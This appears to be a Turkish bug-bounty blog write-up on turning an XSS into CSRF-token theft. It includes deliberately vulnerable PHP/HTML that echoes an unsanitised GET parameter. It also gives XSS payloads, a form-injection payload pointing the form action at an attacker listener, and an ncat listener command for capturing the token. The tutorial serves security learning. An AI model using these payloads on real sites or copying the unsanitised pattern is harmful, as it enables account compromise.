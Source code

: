 ```yaml
---
title: 'TR \| Steal CSRF Tokens with simple XSS'
date: 2019-06-27
permalink: /posts/steal-csrf-tokens-with-simple-xss/
tags:
  - xss
  - hack
  - steal csrf tokens
  - csrf bypass
  - csrf
  - bugbounty
  - bug bounty
  - write-up
  - poc
  - vulnerability
excerpt: 'Steal CSRF Tokens with simple XSS'
---
```


Merhaba,  
Ben Samet ŞAHİN.  
İki yıldan biraz uzun süredir *Bug Bounty* ile ve toplamda yaklaşık dört yıldır da *Web Uygulama Güvenliği* alanında çalışmalar yürütmekteyim. 

*Bug Hunterlar* olarak biz, Bug Bounty ile uğraşırken pek çok farklı sistem ve farklı güvenlik önlemleri görüyoruz. Amacımız güvenli (gözüken) sistemlerde (gerçek ve etkisi olan) açıklar bulup, onları şirketlere bildirmektir. 


Yaptığımız testlerde bulduğumuz aynı tür açıklar her zaman aynı potansiyel zarara (impact) sahip olmayabiliyor. 

Örneğin;
Kurbana otomatik olarak çıkış yaptıran CSRF açığı (Bu genellikle açık kapsamına bile girmez.) ile kurbana otomatik olarak eposta ve parola değişikliği yaptıran CSRF (\*1) açığı elbette aynı potansiyel zarara sahip değildir.

  
Öyleyse, bu yazının konusuna gelelim. Elimizde iki adet XSS (Cross Site Scripting) açığı ve HTML kaynak kodundaki bir *input* tagına yansımış CSRF tokenlerimiz (\*2) var. 
  

## Normal XSS Açığı :  
Websitesinde bir arama kutusu olduğunu görüyoruz. Sitenin kaynak kodlarında CSRF Tokenlerin bulunduğunu ve bir inputun değerini, *GET* isteğindeki *search* parametresinden aldığını görüyoruz. (\*3)

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html	
<form>
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="text" name="search" value="<?php echo $_GET['search']; ?>">
<input type="submit" value="Submit">
</form>
```


Elimizde şu an için hiçbir açık yok fakat testlerden sonra görüyoruz ki *search* parametresi için hiçbir sanitizasyon (\*4) işlemi yapılmamış. Bu durumda diyebiliriz ki buradan bir XSS açığı çıkabilir. (\*5) Açığı bulmamız için GET metoduyla search parametresine bir payload (\*6) gönderiyoruz.
`"><h1>xss`  gönderdik ve kaynak kodunu inceledik : 

<img src="/images/Blog-1.png">


Evet, başarılı bir şekilde value attribute'inin tırnaklarını kapattık ve artık kendi zararlı kodumuzu site üzerinde çalıştırabileceğimizi gördük. Şimdi XSS'in varlığının kanıtı için herhangi JavaScript kodunu çalıştırmamız gerekiyor. Bu seferki payloadımız:
`"><script>alert(1)</script>` (\*7) gönderdik ve kaynak kodunu inceledik:

<img src="/images/Blog-2.png">


XSS açığını kanıtlamış olduk. Bu normal bir XSS saldırısıydı ve HTML ve JavaScript kodu çalıştırmak dışında pek de bir şey yapamadık.


## Kritik XSS Açığı : 
Normal XSS açığında gördüğümüz sayfayla aynı işlemi yapmasına rağmen inputların sırasının farklı olduğu bir sayfa. İlk açıkta gönderdiğimiz açık kodlarının bu sitede de çalıştığını görebiliyoruz. 

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html
<form>
<input type="hidden" name="search" value="<?php echo $_GET['search']; ?>">	
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="submit" value="Submit">
</form>
```



**Trick zamanı :**  
Örneklerle de gördüğümüz gibi iki tane XSS ve input taglarına yansıtılmış CSRF tokenlerini gördük. Eğer `<form>` tagı ve CSRF tokeninin yansıtılmış olduğu input tagının arasında XSS açığına sahipseniz, CSRF tokenlerini de çalabilirsiniz. Bu gerçek ve daha önce pek çok kez karşılaştığım bir senaryo ama sadece Kritik XSS açığında işe yarar. Neden mi ?

- Çünkü HTML dilinde değişken tanımlayıp sonra kullanma gibi bir ihtimaliniz yoktur. Yani yukarıda bir CSRF Tokenli input varsa ve siz aşağıdaki tagda kod çalıştırabiliyorsanız, o CSRF Tokenine XSS açığı ile erişemezsiniz. Elbette JavaScript dilinin yardımlarıyla `getElementById` gibi komutlarla da bu işi yapabilirsiniz. Fakat asıl nokta, bu işi en kısa ve en az JavaScript yardımıyla halletmektir. Güvenlik Header'larının kullanımının artmasıyla birlikte bu trick önem kazanıyor. (\*8)

-  Yukarıda da değindiğim gibi `<form>` ve `</form>` tagları arasında ve CSRF Token'in yansıtılmış olduğu ve herhangi bir tagın içinde çalışan bir XSS açığına olmanız gerekmektedir. Eğer bu ikisine de sahipseniz CSRF tokenlerini rahatlıkla çalabilirsiniz.



**O zaman exploit edelim :**  
Öncelikle XSS açığıyla CSRF tokenlerini çalabilmek için güzel bir payload yazmamız gerekiyor. Paylaodımızın  prensibi şu olmalı : 
- Daha önce açılmış olan formu kapat : `"></form>`
- Yeni bir form aç ve action (\*9) action attribute'üne dinlediğin ip ve port'u gir (\*10) : `"></form><form method="GET" action="http://127.0.0.1:667/bla.html">`
- Ncat ile seçili portu (667) dinle : `ncat -nlvp 667`
- Kullanıcıyı butona tıklat ve loglardan CSRF Token'ini çek : `| grep CSRF`


Exploit videosu burada :
<video width="500" controls>
  <source src="/files/Blog-1.webm" type="video/mp4">
</video>


**SONUÇ :**  
Değerli içerik taşıyan tagların ve açıklı tagların sırası bile bir açığın zararını arttıracak kadar önemli olabiliyor. Bu yüzden manuel testler yapmanız ve bunun gibi trickleri deneyerek öğrenmeniz çok önemli. Deneyebilmeniz için Github'a XSS açıklı 2 dosyayı da koyuyorum. Kendi tricklerimi ve işinize yarayabilecek trickleri paylaştığım Twitter ve LinkedIn hesaplarımdan bana ulaşabilirsiniz. 


[Github](https://github.com/sametsahinnet/XSS-Blog-Post)

  ----

**1** :
Bu açık hakkında yazımı okuyabilirsiniz : https://sametsahin.net/posts/account-takeover-via-reset-password/

**2** :
Anti-CSRF tokenleri, CSRF açığının oluşmasını engellemek için her istek veya kullanıcıya göre değişen uzun ve rastgele değerlerdir. Bu tokenlerin olmadığı ve esktra güvenlik önlemlerinin alınmadığı durumlarda CSRF açığı meydana gelebilir.

**3** :
Bu kısım temel Web bilgisine dayandığı için Google'dan bulabilirsiniz.

**4** :
Sanitizasyon, diğer adıyla filtreleme işlemleri, kullanıcıdan direkt olarak alınan girdilerin, açıklara dönüşmesini engellemek için kullanılan güvenli kod yazma tekniğidir. Pek çok açık gerekli sanitizasyon işleminin yapılmaması veya yeterince kapsamlı olmamasından kaynaklanır.

**5** :
Elbette XSS çıkar bu doğru. Yanlış olan oradan sadece XSS çıkacağı düşüncesidir. Özellikle bu işlere yeni başladıysanız sadece bir açık bulmaya çalışırsınız. Yapmanız gereken bir açıktan en fazla ne kadar ileriye gidebileceğinizi denemektir. Herkes XSS bulabilir ama sizin farkınız XSS'ten diğer açıklara ulaşmanız olmalı.

**6** :
Payload, açıkları bulmak ve sömürmek için hacker tarafından yazılan kodlardır. Payloadlara, açık kodları diyebiliriz. Ve payloadlar yeşil renkle ekrandan hızlıca akıp gitmez :)

**7** :
Normalde böyle bir payload çok az yerde çalışır. Payloadlarınızın kalitesini arttırmanız için elle yazmalı ve her tuşun kaynak kodunda yansımış olduğu yerleri dikkatlice incelemelisiniz. Yani her payloadınızla birlikte websitenin yanıtını kontrol etmelisiniz.

**8** :
Hayır, erişebilirsiniz. Ama bunun ihtimali düşüktür. 

**9** :
HTML'de nir form tagı açtığınız zaman onu kapatmanız gerekir. Biz kapanmış form (`</form>`) tagı enjekte ettiğimiz zaman görüntü şu şekilde olur : 


```html
<form>
<input type="hidden" name="search" value="query"></form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Enjekte ettiğimiz form tagı ile bir adet tamamen kapatılmış ve bir adet de açılış tagı eksik olan `</form>` tagımız olur. O zaman açılış tagımızı payloadımıza ekliyoruz ve son durumda iki adet form'umuz oluyor : 

```html
<form>
<input type="hidden" name="search" value="query">
</form>
```
ve
```html
<form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Baştan beri amacımız CSRF Tokeni içeren form'u kontrol edebilmekti. Action attribute'ünü değiştirdiğimiz anda artık CSRF Tokeni içeren her istek bizim loglarımıza düşecek ve oradan Tokeni elde edebileceğiz.

***10** :
CSRF Token'ine loglardan erişebilmemiz için logların bizde olması gerekir. Bu yüzden kendi localimizde rastgele bir portu dinliyoruz. Bu işlemi `ncat` ile yapabilirsiniz : 

`ncat -nlvp 667`





Değerli zamanınız için teşekkür ederim.  

Samet ŞAHİN   
